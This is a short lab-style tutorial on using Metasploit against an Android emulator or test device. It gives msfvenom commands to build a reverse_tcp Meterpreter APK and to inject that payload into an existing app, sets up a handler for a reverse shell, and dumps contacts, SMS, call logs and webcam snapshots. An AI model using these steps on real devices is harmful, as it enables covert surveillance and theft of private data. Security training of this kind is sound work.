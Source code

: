 # Metasploit For Android

## DESCRIPTION

The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing. It is owned by Boston, Massachusetts-based security company Rapid7.

Its best-known sub-project is the open source Metasploit Framework, a tool for developing and executing exploit code against a remote target machine.

## PREREQUISITES

1. Metasploit

2. adb(Android debug bridge)

3. Genymotion/Android device

Exploitation to get an android reverse shell
Connect to the remote target device(genymotion/android) using adb

![](https://github.com/v1ns3c/Write-ups/blob/efa9b7c48ef35f5b35c27813c16c9c08a0e2a4ed/Images/Documentations/Metasploit_for_Android/1.jpg)

1) Steps to generate an apk with the reverse_tcp payload
Go to ‘opt/metasploit-framework/bin’ and enter the following command to generate an apk

$ ./msfvenom -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

!img
!img

Install the apk generated on the target device(genymotion/android)

!img
!img

Go to ‘opt/metasploit-framework/bin’ and follow the steps to get the reverse shell

$ ./msfconsole

!img

$ use exploit/multi/handler

!img


$ set payload android/meterpreter/reverse_tcp

!img

$ show options

!img

$ set LHOST <localhost ip>

!img

$ exploit ‘or’ run

!img

Click on the test.apk application in the remote target device(genymotion/android) to get the reverse shell

!img

$ help ‘or’ ?

!img

$ dump_contacts

!img

$ dump_sms

!img

$ dump_calllog

!img

Go to the ‘metasploit-framework’ folder to get the dumps

!img

$ cat <calllog.txt>

!img

$ cat <contacts.txt>

!img

$ cat <sms.txt>

!img

Commands for webcam

$ webcam_list

$ webcam_snap 1 ‘or’ 2

!img

!img

2) Steps to inject reverse_tcp payload in an existing app(diva-beta.apk)

Go to ‘opt/metasploit-framework/bin’ and enter the following command

$ ./msfvenom -x <apk path/apkname.apk> -p android/meterpreter/reverse_tcp LHOST=<localhost ip> LPORT=4444 -o <destination path/test.apk>

!img

Install the app in the device and repeat the msfconsole steps as shown earlier to get the reverse shell.

## Extra Commands for metasploit

$ show exploits- (Get all exploits till date)

$ search <any random keyword>

(ex- search android- to get all exploits related to android)

$ info <exploit>

Thanks for reading!





